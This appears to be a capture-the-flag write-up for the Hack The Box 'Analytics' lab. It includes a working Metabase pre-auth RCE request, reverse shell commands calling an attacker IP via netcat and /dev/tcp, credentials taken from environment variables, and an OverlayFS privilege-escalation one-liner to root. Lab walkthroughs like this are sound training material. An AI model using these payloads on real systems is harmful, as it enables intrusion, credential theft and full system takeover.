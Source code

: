 # This is a writeup for the Analytics CTF from htb labs

## Recon

#### Nmap scan "the fastest and most effective scan for CTF labs"

```
sudo nmap 10.10.11.233 --min-rate 3000 -sS -sV -sC -Pn -T5 


Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-14 11:04 BST
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.65 seconds
```

<!-- we got two open ports 22 for ssh and 80 for a webserver labeled "Analytical" -->

## Enum

#### this page "http://data.analytical.htb/auth/login?redirect=%2F" seems to have a vuln of severe RCE at  metabase version 0.46.6

###### when we make an inital request to this page 

![Screenshot at 2023-10-14 11-23-13](https://github.com/shanksbeard/Analytics-htb-writeup/assets/147916074/d542131f-ef64-48dc-b501-13bef1103879)

<!--  it gave us a setup-token that enables us to  post our RCE payload to the api "/api/setup/validate" -->

## Exploit 1 : RCE

#### Start a netcat listener 

```nc -lnvp 4444``` <!-- or any port of your choice --> 

### Here is the payload request made to this api /api/setup/validate 
```
POST /api/setup/validate HTTP/1.1
Host: 10.10.11.233 
Content-Type: application/json

{
 "token": "put the setup token here ",
 "details": {
  "is_on_demand": false,
  "is_full_sync": false,
  "is_sample": false,
  "cache_ttl": null,
  "refingerprint": false,
  "auto_run_queries": true,
  "schedules": {},
  "details": {
   "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec(Put your RCE revshell payload just here)\n$$--=x",
   "advanced-options": false,
   "ssl": true
  },
  "name": "test",
  "engine": "h2"
 }
}
```

#### for me it seems this basic busybox revshell payload to work just fine

```busybox nc <Attacker IP add> 4444 -e sh ```  <!-- remember you can put any unstandard  port. --> 

###### we could do this trick to stabilize the revshell and also good  to replace python pty command
```
echo 'sh -i >& /dev/tcp/<Attacker IP add>/4445 0>&1' > /tmp/a.sh
bash /tmp/a.sh
```
#### after some basic enumeration got the /bin/ash users as well some ssh creds at env variables 
root:x:0:0:root:/root:/bin/ash
metabase:x:2000:2000:Linux User,,,:/home/metabase:/bin/ash
META_USER=metalytics
META_PASS=*************** <!-- to get the password practice what we have done -->

-------------------------------------------------------------------------------------------------------------------------
```
ssh metalytics@analytical.htb 
metalytics@analytical.htb's password: 
metalytics@analytics:~$ 
```
###### Great, well done !!!

<!-- the root seems to be active  -->
```
root:x:0:0:root:/root:/bin/bash
metalytics:x:1000:1000:,,,:/home/metalytics:/bin/bash
```
## Privesc:

<!-- the kernel version seems to be vuln "6.2.0" to these OverlayFS CVEs "CVE-2023-2640 CVE-2023-32629 "
# here is a little hint from the creators "overlay on /var/lib/docker/overlay2/957463a5867e5" thank you htb labs team <3
# you can check out the vuln in fully here "https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability"
-->
### here is the payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

## just put it as command line in the shell and 
```
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```
## boom you are the root !!! you made it.
